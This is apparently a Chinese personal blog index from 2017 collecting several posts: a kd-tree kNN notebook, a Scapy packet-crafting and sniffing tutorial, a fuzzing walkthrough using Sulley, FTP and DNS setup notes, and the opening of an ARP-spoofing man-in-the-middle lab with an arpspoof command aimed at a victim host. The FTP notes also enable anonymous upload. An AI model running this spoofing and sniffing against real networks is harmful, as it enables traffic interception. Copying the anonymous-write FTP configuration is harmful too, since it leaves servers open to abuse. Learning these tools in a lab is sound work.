偷得浮生半日闲

yunpiao's Blog

# 未命名

发表于 2017/05/11

# 机器学习

```python
import random
import operator
import datetime
import numpy as np
import pandas as pd
import statsmodels.api as sm
import matplotlib.pyplot as plt
```

```python
# 100个正态分布的悲伤
grief_heights = np.random.normal(50, 6, 100)
grief_weights = np.random.normal(5, 0.5, 100)

# 100个正态分布的痛苦
agony_heights = np.random.normal(30,6,100)
agony_weights = np.random.normal(4,0.5,100)

# 100个正态分布的绝望
despair_heights = np.random.normal(45,6,100)
despair_weights = np.random.normal(2.5, 0.5, 100)
```

```python
# 设置图片大小
fig_size = plt.rcParams["figure.figsize"]
fig_size[0] = 15
fig_size[1] = 10
```



```python
plt.scatter(grief_heights,grief_weights,c='g',marker='s',s=50,alpha=0.8)
plt.axis((10, 70,1,7))
plt.xlabel('身高 (cm)',size=15)
plt.ylabel('体重 (kg)', size=15)
plt.show()
```



```python
plt.scatter(grief_heights,grief_weights,c='g',marker='s',s=50,alpha=0.8)
plt.scatter(agony_heights,agony_weights,c='b',marker='^',s=50,alpha=0.8)
plt.axis((10, 70,1,7))
plt.xlabel('身高 (cm)',size=15)
plt.ylabel('体重 (kg)', size=15)
plt.show()
```



```python
plt.scatter(grief_heights,grief_weights,c='g',marker='s',s=50,alpha=0.8)
plt.scatter(agony_heights,agony_weights,c='b',marker='^',s=50,alpha=0.8)
plt.scatter(despair_heights,despair_weights, c='y', s=50, alpha=0.8)
plt.axis((10, 70,1,7))
plt.xlabel('身高 (cm)',size=15)
plt.ylabel('体重 (kg)', size=15)
plt.show()
```

```python
class kdtree(object):
    # 创建 kdtree 喵
    # point_list 是一个 list 的 pair，pair[0] 是一 tuple 的特征，pair[1] 是类别
    def __init__(self, point_list, depth=0, root=None):

        if len(point_list) > 0:

            # 轮换按照树深度选择坐标轴
            k = len(point_list[0][0])
            axis = depth % k

            # 选中位线，切
            point_list.sort(key=lambda x: x[0][axis])
            median = len(point_list) // 2

            self.axis = axis
            self.root = root
            self.size = len(point_list)

            # 造节点
            self.node = point_list[median]
            # 递归造左枝和右枝
            if len(point_list[:median]) > 0:
                self.left = kdtree(point_list[:median], depth + 1, self)
            else:
                self.left = None
            if len(point_list[median + 1:]) > 0:
                self.right = kdtree(point_list[median + 1:], depth + 1, self)
            else:
                self.right = None
                # 记录是按哪个方向切的还有树根

        else:
            return None

    # 在树上加一点
    def insert(self, point):
        self.size += 1

        # 分析是左还是右，递归加在叶子上
        if point[0][self.axis] < self.node[0][self.axis]:
            if self.left != None:
                self.left.insert(point)
            else:
                self.left = kdtree([point], self.axis + 1, self)
        else:
            if self.right != None:
                self.right.insert(point)
            else:
                self.right = kdtree([point], self.axis + 1, self)

    # 输入一点
    # 按切分寻找叶子
    def find_leaf(self, point):
        if self.left == None and self.right == None:
            return self
        elif self.left == None:
            return self.right.find_leaf(point)
        elif self.right == None:
            return self.left.find_leaf(point)
        elif point[self.axis] < self.node[0][self.axis][0]:
            return self.left.find_leaf(point)
        else:
            return self.right.find_leaf(point)

    # 查找最近的 k 个点，复杂度 O(DlogN)，D是维度，N是树的大小
    # 输入一点、一距离函数、一k。距离函数默认是 L_2
    def knearest(self, point, k=1, dist=lambda x, y: sum(map(lambda u, v: (u - v) ** 2, x, y))):
        # 往下戳到最底叶
        leaf = self.find_leaf(point)
        # 从叶子网上爬
        return leaf.k_down_up(point, k, dist, result=[], stop=self, visited=None)

    # 从下往上爬函数，stop是到哪里去，visited是从哪里来
    def k_down_up(self, point, k, dist, result=[], stop=None, visited=None):

        # 选最长距离
        if result == []:
            max_dist = 0
        else:
            max_dist = max([x[1] for x in result])

        other_result = []

        # 如果离分界线的距离小于现有最大距离，或者数据点不够，就从另一边的树根开始刨
        if (self.left == visited and self.node[0][0][self.axis] - point[self.axis] < max_dist and self.right != None) or (
                    len(result) < k and self.left == visited and self.right != None):
            other_result = self.right.knearest(point, k, dist)

        if (self.right == visited and point[self.axis] - self.node[0][0][self.axis] < max_dist and self.left != None) or (
                    len(result) < k and self.right == visited and self.left != None):
            other_result = self.left.knearest(point, k, dist)

        # 刨出来的点放一起，选前 k 个
        result.append((self.node, dist(point, self.node[0])))
        result = sorted(result + other_result, key=lambda pair: pair[1])[:k]

        # 到停点就返回结果
        if self == stop:
            return result
        # 没有就带着现有结果接着往上爬
        else:
            return self.root.k_down_up(point, k, dist, result, stop, self)

    # 输入 特征、类别、k、距离函数
    # 返回这个点属于该类别的概率
    def kNN_prob(self, point, label, k, dist=lambda x, y: sum(map(lambda u, v: (u - v) ** 2, x, y))):
        nearests = self.knearest(point, k, dist)
        return float(len([pair for pair in nearests if pair[0][1] == label])) / float(len(nearests))

    # 输入 特征、k、距离函数
    # 返回该点概率最大的类别以及相对应的概率
    def kNN(self, point, k, dist=lambda x, y: sum(map(lambda u, v: (u - v) ** 2, x, y))):
        nearests = self.knearest(point, k, dist)

        statistics = {}
        for data in nearests:
            label = data[0][1]
            if label not in statistics:
                statistics[label] = 1
            else:
                statistics[label] += 1

        max_label = max(statistics.items(), key=operator.itemgetter(1))[0]
        return max_label, float(statistics[max_label]) / float(len(nearests))
```

```python
# 设置样本集
grieves = list(map(lambda x,y:tuple(((x,y),'g')),grief_heights, grief_weights))
agonies =  list(map(lambda u,v:tuple(((u,v),'b')),agony_heights, agony_weights))
despairs =  list(map(lambda a,b:tuple(((a,b),'y')),despair_heights, despair_weights))
```

```python
# 创建kd树
tree = kdtree(list((grieves,agonies,despairs)))

# 穷举生成空间上的点
all_points = []
for i in range(100,701):
    for j in range(100,701):
        all_points.append((float(i)/10., float(j)/100.))


# 一共是36万个点
len(all_points)

# 设置归一化距离函数
def normalized_dist(x, y):
    return (x[0] - y[0][0]) ** 2 + (10 * x[1] - 10 * y[0][1]) ** 2
```

```python
now = datetime.datetime.now()
fifteen_NN_result = []
for point in all_points:
#     print(point)
    fifteen_NN_result.append((point, tree.kNN(point,k=15, dist=normalized_dist)[0]))
print(datetime.datetime.now() - now)
```

```
0:00:04.620688
```

```python
# 把每个颜色的数据分开
fifteen_NN_yellow = []
fifteen_NN_green = []
fifteen_NN_blue = []

for pair in fifteen_NN_result:
    if pair[1]=='y':
        fifteen_NN_yellow.append(pair[0])
    if pair[1]=='g':
        fifteen_NN_green.append(pair[0])
    if pair[1]=='b':
        fifteen_NN_blue.append(pair[0])
```



```python
plt.scatter(40,2.7, c='r', s=200, marker='*',alpha=0.8, zorder=10)
plt.scatter(grief_heights,grief_weights,c='g',marker='s',s=50,alpha=0.8,zorder=10)
plt.scatter(agony_heights,agony_weights,c='b',marker='^',s=50,alpha=0.8,zorder=10)
plt.scatter(despair_heights,despair_weights, c='y', s=50, alpha=0.8,zorder=10)
plt.scatter([x[0] for x in fifteen_NN_yellow], [x[1] for x in fifteen_NN_yellow], s=1, c='yellow', marker='1', alpha=0.3)
plt.scatter([x[0] for x in fifteen_NN_blue], [x[1] for x in fifteen_NN_blue], s=1, c='blue', marker='2', alpha=0.3)
plt.scatter([x[0] for x in fifteen_NN_green], [x[1] for x in fifteen_NN_green], s=1, c='green', marker='3', alpha=0.3)
plt.axis((10, 70,1,7))
plt.title('15NN分类',size=30)
plt.xlabel('身高 (cm)',size=15)
plt.ylabel('体重 (kg)', size=15)
plt.show()
```

```python
# 每个点运算 1NN，并记录计算时间
now = datetime.datetime.now()
one_NN_result = []
for point in all_points:
    one_NN_result.append((point, tree.kNN(point,k=1, dist=lambda x,y: (x[0]-y[0])**2+(10*x[1]-10*y[1])**2)[0]))
print(datetime.datetime.now() - now)
```

[output not shown]

# 未命名

发表于 2017/05/11

# Scapy 使用

## Scapy 简介

> Scapy的是一个强大的交互式数据包处理程序（使用python编写）。它能够伪造或者解码大量的网络协议数据包，能够发送、捕捉、匹配请求和回复包等等。它可以很容易地处理一些典型操作，比如端口扫描，tracerouting，探测，单元 测试，攻击或网络发现（可替代hping，NMAP，arpspoof，ARP-SK，arping，tcpdump，tethereal，P0F等）。 最重要的他还有很多更优秀的特性——发送无效数据帧、注入修改的802.11数据帧、在WEP上解码加密通道（VOIP）、ARP缓存攻击（VLAN） 等，这也是其他工具无法处理完成的。

```python
from  scapy.all import *
```

## 常用命令

```python
ls()    # 查看支持格式
```

[output not shown]

[output cut: 301 more lines]

```
USER_CLASS_DATA : user class data
VENDOR_CLASS_DATA : vendor class data
VENDOR_SPECIFIC_OPTION : vendor specific option data
VRRP       : None
X509Cert   : None
X509RDN    : None
X509v3Ext  : None
_DHCP6GuessPayload : None
_DHCP6OptGuessPayload : None
_ICMPv6    : ICMPv6 dummy class
_ICMPv6Error : ICMPv6 errors dummy class
_ICMPv6ML  : ICMPv6 dummy class
_IPOption_HDR : None
_IPv6ExtHdr : Abstract IPV6 Option Header
_MobilityHeader : Dummy IPv6 Mobility Header
```

```python
ls(IP) # 查看IP包结构
```

```
version    : BitField             = (4)
ihl        : BitField             = (None)
tos        : XByteField           = (0)
len        : ShortField           = (None)
id         : ShortField           = (1)
flags      : FlagsField           = (0)
frag       : BitField             = (0)
ttl        : ByteField            = (64)
proto      : ByteEnumField        = (0)
chksum     : XShortField          = (None)
src        : Emph                 = (None)
dst        : Emph                 = ('127.0.0.1')
options    : PacketListField      = ([])
```

```python
lsc() # 查看支持命令
```

```
arpcachepoison      : Poison target's cache with (your MAC,victim's IP) couple
arping              : Send ARP who-has requests to determine which hosts are up
bind_layers         : Bind 2 layers on some specific fields' values
corrupt_bits        : Flip a given percentage or number of bits from a string
corrupt_bytes       : Corrupt a given percentage or number of bytes from a string
defrag              : defrag(plist) -> ([not fragmented], [defragmented],
defragment          : defrag(plist) -> plist defragmented as much as possible
dyndns_add          : Send a DNS add message to a nameserver for "name" to have a new "rdata"
dyndns_del          : Send a DNS delete message to a nameserver for "name"
etherleak           : Exploit Etherleak flaw
fragment            : Fragment a big IP datagram
fuzz                : Transform a layer into a fuzzy layer by replacing some default values by random objects
getmacbyip          : Return MAC address corresponding to a given IP address
hexdiff             : Show differences between 2 binary strings
hexdump             : --
hexedit             : --
is_promisc          : Try to guess if target is in Promisc mode. The target is provided by its ip.
linehexdump         : --
ls                  : List  available layers, or infos on a given layer
promiscping         : Send ARP who-has requests to determine which hosts are in promiscuous mode
rdpcap              : Read a pcap file and return a packet list
send                : Send packets at layer 3
sendp               : Send packets at layer 2
sendpfast           : Send packets at layer 2 using tcpreplay for performance
sniff               : Sniff packets
split_layers        : Split 2 layers previously bound
sr                  : Send and receive packets at layer 3
sr1                 : Send packets at layer 3 and return only the first answer
srbt                : send and receive using a bluetooth socket
srbt1               : send and receive 1 packet using a bluetooth socket
srflood             : Flood and receive packets at layer 3
srloop              : Send a packet at layer 3 in loop and print the answer each time
srp                 : Send and receive packets at layer 2
srp1                : Send and receive packets at layer 2 and return only the first answer
srpflood            : Flood and receive packets at layer 2
srploop             : Send a packet at layer 2 in loop and print the answer each time
traceroute          : Instant TCP traceroute
tshark              : Sniff packets and print them calling pkt.show(), a bit like text wireshark
wireshark           : Run wireshark on a list of packets
wrpcap              : Write a list of packets to a pcap file
```

## 报文操作

```python
IP_packet = IP(dst="127.0.0.1")
IP_packet.show()
```

```
###[ IP ]###
  version   = 4
  ihl       = None
  tos       = 0x0
  len       = None
  id        = 1
  flags     =
  frag      = 0
  ttl       = 64
  proto     = hopopt
  chksum    = None
  src       = 127.0.0.1
  dst       = 127.0.0.1
  \options   \
```

#### 多层报文

```python
Ether_packet = IP(dst="10.205.42.232")/TCP(dport=8000)/"GET / HTTP/1.1\r\n\r\n"

Ether_packet.show()
```

```
###[ IP ]###
  version   = 4
  ihl       = None
  tos       = 0x0
  len       = None
  id        = 1
  flags     =
  frag      = 0
  ttl       = 64
  proto     = tcp
  chksum    = None
  src       = 10.108.113.147
  dst       = 10.205.42.232
  \options   \
###[ TCP ]###
     sport     = ftp_data
     dport     = 8000
     seq       = 0
     ack       = 0
     dataofs   = None
     reserved  = 0
     flags     = S
     window    = 8192
     chksum    = None
     urgptr    = 0
     options   = {}
###[ Raw ]###
        load      = 'GET / HTTP/1.1\r\n\r\n'
```

```python
#send(Ether_packet, iface="eno1")
a = send(Ether_packet, iface="eno1")
a
```

```
Sent 1 packets.
```

```python
a[0]
```

[output not shown]

### 发送接受报文

```python
sniff_packet = sniff(filter=" host 10.108.113.147", count=5)
```

```python
sniff_packet.show()
```

```
0000 Ether / IP / TCP 127.0.0.1:8889 > 127.0.0.1:34612 PA / Raw
0001 Ether / IP / TCP 10.205.42.232:1008 > 10.108.113.147:43542 FA
0002 Ether / IP / TCP 10.108.113.147:43542 > 10.205.42.232:1008 FA
0003 Ether / IP / TCP 10.205.42.232:1008 > 10.108.113.147:43542 A
0004 Ether / IP / TCP 10.108.113.147:43544 > 10.205.42.232:1008 S
```

```python
sniff_packet[1].show()
```

```
###[ Ethernet ]###
  dst       = 4c:cc:6a:78:87:3d
  src       = 00:0f:e2:6a:09:78
  type      = 0x800
###[ IP ]###
     version   = 4L
     ihl       = 5L
     tos       = 0x0
     len       = 52
     id        = 5213
     flags     = DF
     frag      = 0L
     ttl       = 60
     proto     = tcp
     chksum    = 0x78b3
     src       = 10.205.42.232
     dst       = 10.108.113.147
     \options   \
###[ TCP ]###
        sport     = 1008
        dport     = 43542
        seq       = 2413878415
        ack       = 505381490
        dataofs   = 8L
        reserved  = 0L
        flags     = FA
        window    = 252
        chksum    = 0xc723
        urgptr    = 0
        options   = [('NOP', None), ('NOP', None), ('Timestamp', (42723530, 66474644))]
```

```python
ICMP_packet = sr(IP(dst="10.108.112.1")/ICMP())
```

```
Begin emission:
Finished to send 1 packets.

Received 29 packets, got 1 answers, remaining 0 packets
```

```python
ICMP_packet[0].show()
```

```
0000 IP / ICMP 10.108.113.147 > 10.108.112.1 echo-request 0 ==> IP / ICMP 10.108.112.1 > 10.108.113.147 echo-reply 0 / Padding
```

## 使用Scapy 模拟三次握手

### 第一次握手 syn

```python
syn = IP(dst='10.205.42.232') / TCP(dport=8000, flags='S')
ack = sr1(syn)
ack.show()
```

```
Begin emission:
Finished to send 1 packets.

Received 40 packets, got 1 answers, remaining 0 packets
###[ IP ]###
  version   = 4L
  ihl       = 5L
  tos       = 0x0
  len       = 44
  id        = 0
  flags     = DF
  frag      = 0L
  ttl       = 60
  proto     = tcp
  chksum    = 0x8d18
  src       = 10.205.42.232
  dst       = 10.108.113.147
  \options   \
###[ TCP ]###
     sport     = 8000
     dport     = ftp_data
     seq       = 2657354481
     ack       = 1
     dataofs   = 6L
     reserved  = 0L
     flags     = SA
     window    = 29200
     chksum    = 0xb3a7
     urgptr    = 0
     options   = [('MSS', 1460)]
###[ Padding ]###
        load      = '\x00\x00'
```

### 需要给防火墙加上规则 防止远程端发来的syn_ack帧被RST

> iptables -A OUTPUT -p tcp --tcp-flags RST RST -d 192.168.233.1 -j DROP

```python
getStr = 'GET / HTTP/1.1\r\nHost: www.google.com\r\n\r\n'
request = IP(dst='10.205.42.232') / TCP(dport=8000, sport=ack[TCP].dport,
             seq=ack[TCP].ack, ack=ack[TCP].seq + 1, flags='A') / getStr
reply = sr1(request)
reply.show()
```

```
Begin emission:
Finished to send 1 packets.

Received 32 packets, got 1 answers, remaining 0 packets
###[ IP ]###
  version   = 4L
  ihl       = 5L
  tos       = 0x0
  len       = 40
  id        = 38074
  flags     = DF
  frag      = 0L
  ttl       = 60
  proto     = tcp
  chksum    = 0xf861
  src       = 10.205.42.232
  dst       = 10.108.113.147
  \options   \
###[ TCP ]###
     sport     = 8000
     dport     = ftp_data
     seq       = 2657358594
     ack       = 41
     dataofs   = 5L
     reserved  = 0L
     flags     = A
     window    = 29200
     chksum    = 0xbb2c
     urgptr    = 0
     options   = {}
###[ Padding ]###
        load      = '\x00\x00\x00\x00\x00\x00'
```

```python
reply
```

[output not shown]

## scapy 搭配 netfilter

```python
#! /usr/bin/env python2.7
from scapy.all import *
from netfilterqueue import NetfilterQueue

def modify(packet):
    pkt = IP(packet.get_payload()) #converts the raw packet to a scapy compatible string

    #modify the packet all you want here

    packet.set_payload(str(pkt)) #set the packet content to our modified version

    packet.accept() #accept the packet



nfqueue = NetfilterQueue()
#1 is the iptabels rule queue number, modify is the callback function
nfqueue.bind(1, modify)
try:
    print ("[*] waiting for data")
    nfqueue.run()
except KeyboardInterrupt:
    pass
```

```
[*] waiting for data
```

# 机器学习

发表于 2017/05/11

# 机器学习

阅读全文 »

# 安装MIMTf 框架

发表于 2017/05/11

> MIMTf 介绍

Github 项目主页：https://github.com/byt3bl33d3r/MITMf  
开发案例及更新 ：http://sign0f4.blogspot.it/  
MIMTf 项目作者：byt3bl33d3r  
MIMTf 全称为 Framework for Man-In-The-Middle attacks （中间人攻击框架），它基于 sergio-proxy 代理工具修改而来，由 Python 强势驱动。

阅读全文 »

# gomobile-golang搭建安卓ios开发平台

发表于 2017/05/09

> gomobile go 开发 安卓 iOS app

## 1. 下载安装文件

### 下载 ndk

https://developer.android.com/ndk/downloads/index.html?hl=zh-cn

### 安装 golang

`sudo　apt-get install golang`  
export “$GOPATH/bin:$PATH”

### 安装 adb

`sudo apt-get install adb`

## 2. 配置 gomobile

`go get golang.org/x/mobile/cmd/gomobile`  
`go build golang.org/x/mobile/cmd/gomobile`

## 3. 安装实验

gomobile build golang.org/x/mobile/example/basic  
gomobile install golang.org/x/mobile/example/basic

# linux 快速搭建FTP

发表于 2017/05/08

> 快速搭建ftp服务

## 1. 第一步. 安装

```
sudo apt-get install vsftpd
```

## 2. 第二步. 修改配置

```
anonymous_enable=YES    #设置匿名可登录
local_enable=YES        #本地用户允许登录
write_enable=YES        #用户是否有写的权限
anon_upload_enable=YES   #允许匿名用户上传
anon_mkdir_write_enable=YES   #允许匿名用户创建目录文件
```

## 3. 第三步. 重启

```
sudo service vsftpd restart
```

## 代替方法

```
python http.server
```

# 阿里云域名解析github page

发表于 2017/05/08

> 购买阿里云解析 github 网站的正确用法

## 1. 购买阿里云域名

购买网址 :  
https://wanwang.aliyun.com/

## 2. 在github blog主文件夹下 添加 CNAME 文件

文件中添加域名  
yunpiao.pub

## 3.在阿里云解析里面添加解析

```
CNAME    www    默认    yunpiao.github.io    --    10分钟        修改|暂停|删除|备注
CNAME    @    默认    yunpiao.github.io    --    10分钟        修改|暂停|删除|备注
```

两个都指向 blog

阅读全文 »

# 使用sulley 进行fuzzing

发表于 2017/05/08

> 使用 sulley 进行fuzzing测试

[figure not shown]

## 1. 使用sulley 进行 fuzzing测试 python .server

- Fuzzing 对象 : python 中的 http.server 模块
- 环境: deepin 15.4
- 工具: sulley 框架

### 第一步. 构造fuzz数据文件

#### 采用sulley 默认的http_get.py 数据文件进行 Fuzzing

[output not shown]

[output not shown]

### 第二步. 构造session

session.py

[output not shown]

[output not shown]

### 第三步. 启动用于 fuzzing测试的 http.server 程序

`> python http.server`

### 第四步. 开启网络监控

`> python network_monitor.py -d 1 -f "src or dst port 21" -P net_log`

### 第五步: 开始Fuzing

`> python session.py`

session 显示如下 表示已经开始 fuzzing

[output not shown]

[output not shown]

## 参考网址

http://blog.sina.com.cn/s/blog_714c124f0101548r.html  
https://wizardforcel.gitbooks.io/grey-hat-python/content/36.html  
http://bbs.pediy.com/thread-135764.htm  
http://www.xlgps.com/article/400245.html

# sulley 安装教程

发表于 2017/05/08

# sulley 安装教程

> sulley 的Windows的安装 网上教程很多, 对于linux的安装比较少. 这是linux的安装教程

### 安装测试环境

deepin 15.3  
python2.7

## 安装系统环境:

$ sudo apt-get install python  
$ Sudo apt-get install flex  
$ Sudo apt-get install bison

Install libpcap-1.4.0  
http://www.tcpdump.org/release/libpcap-1.4.0.tar.gz  
$ ./configure  
$ make  
$ sudo make install

$ sudo apt-get install libpcap-dev  
$ sudo apt-get install python-pcapy

之后下载sulley目录  
git clone https://github.com/Bit9/sulley.git sulley  
由于在linux 还需要相关依赖  
所以下载

[figure not shown]

解压vdb在sulley 的父目录下 即跟sulley 处于同一目录

最后的目录结构

.  
├── sulley  
│ ├── archived_fuzzies  
│ ├── AUTHORS.txt  
│ ├── CONTRIBUTORS.txt  
│ ├── docs  
│ ├── ftp_session.py  
│ ├── **init**.py  
│ ├── installer  
│ ├── INSTALL.txt  
│ ├── LICENSE.txt  
│ ├── network_monitor.py  
│ ├── process_monitor.py  
│ ├── README.md  
│ ├── requests  
│ ├── session_test.udg  
│ ├── sulley  
│ ├── unit_test.py  
│ ├── unit_tests  
│ ├── utils  
│ ├── vmcontrol.py  
│ └── wftpserver.session  
└── vdb  
├── cobra  
├── docs  
├── Elf  
├── envi  
├── mach  
├── PE  
├── README  
├── scripts  
├── vdb  
├── vdbbin  
├── visgraph  
├── vqt  
├── vstruct  
├── vtrace  
└── vwidget

## sulley 目录结构

> 在Sulley的目录结构中存在着一些技巧。对目录结构进行维护将可以确保当你使用用户定义的复杂类型、请求以及工具对模糊器进行扩展时，目录中的所有内容仍然是有组织的。下面的层次关系指出了你需要了解的有关目录结构的一些内容：
- archived_fuzzies：这是一个自由格式的目录，由模糊测试目标应用的名字进行组织，以存储已存档的模糊器以及从模糊测试会话中所生成的数据。
  - trend_server_protect_5168：包含将在本文档后面的单步遍历中被引用的已执行完毕的模糊测试。
  - trillian_jabber：包含文档将引用的另外一个已执行完毕的模糊测试。
  - audits：针对活动的模糊测试会话所记录的PCAP、崩溃的二进制文件、代码覆盖以及分析图等应当被保存到这个目录中。一旦模糊测试执行完毕，应当将所记录的数据转移到archived_fuzzies目录中。
  - docs：该目录包含相关文档以及所生成的Epydoc API引用。
- requests：该目录是Sulley请求库。每个目标应用都应当获得其自己的文件，该文件可以被用来存储多个请求。
  - _REQUESTS_html：这个文件包含针对所存储的请求分类的描述，并且列出了单个的类型。它是按照字母顺序来进行维护的。
  - http.py：表示不同的Web服务器模糊测试请求。
  - trend.py：包含与本文档后面所讨论的完整的模糊测试走查相关联的请求。
- sulley：该目录是模糊器的框架。除非你想要扩展该框架，否则的话不要触及这些文件。
  - legos：包含用户所定义的复杂原始类型。
  - ber.py：包含ASN.1/BER原始类型。
  - dcerpc.py：包含微软的RPC NDR原始类型。
  - misc.py：包含多种不同的未分类的复杂原始类型，如邮件地址和主机名等。
  - xdr.py：包含XDR类型。
  - pgraph：该目录包含Python图形抽象库。在构建会话时使用。
  - utils：包含不同的帮助例程。
    - dcerpc.py：微软的RPC帮助例程，例如实现绑定到一个接口或者生成一个请求。
    - misc.py：包含不同的未分类例程，比如CRC－16以及UUID操纵例程。
    - scada.py：包含一个DNP3块编码器的特定于SCADA的帮助例程。
  - _init*py：这里定义了在创建请求时所使用的不同的s*别名。
  - blocks.py：这里定义了块以及块的帮助例程。
  - pedrpc.py：这个文件定义了Sulley所使用的在不同的代理与主模糊器之间进行通信的客户端和服务器类。
  - primitives.py：该文件定义了不同的模糊器原始类型，包括静态类型、随机类型、字符串类型以及整数类型等。
  - sessions.py：这个文件包含构建以及执行一个会话所需要的功能。
  - sex.py：包含Sulley的定制异常处理类。
- unit_tests：该目录包含Sulley的单元测试套件。
  - utils：包含多种不同的单机版工具。
    - Crashbin_explorer.py：包含用于研究存储在序列化的崩溃bin文件中的结果的命令行工具。
    - pcap_cleaner.py：包含用于清除一个PCAP目录中与错误不相关的所有条目的命令行工具。
- network_monitor.py：包含PedRPC驱动的网络监视代理。
- process_monitor.py：包含PedRPC驱动的、基于调试器的目标监视代理。
- unit_test.py：Sulley的单元测试套件。
- vmcontrol.py：包含PedRPC驱动的VMWare控制代理。

#### 参考网址

http://blog.163.com/wuzhiyong_430/blog/static/48883052201351310184631  
https://github.com/Bit9/sulley/blob/master/INSTALL.txt  
http://download.csdn.net/download/xiaoliyaqian/8402057  
https://github.com/OpenRCE/sulley/issues/51  
https://github.com/Bit9/sulley

# 中间人攻击arp欺骗

发表于 2017/05/05

> 中间人攻击实例

# 前提

工具

- tcpdump
- wireshark
- driftnet
- urlsnarf
- arpspoof

环境

- 攻击者 10.108.113.147
- 被攻击者 10.108.112.243
- 网关 10.108.112.1

# 实战步骤

## 1. 开启ARP欺骗

`arpspoof -i eth0 -t 10.108.112.243 10.108.112.1`  
欺骗目标主机 当前主机 是网关

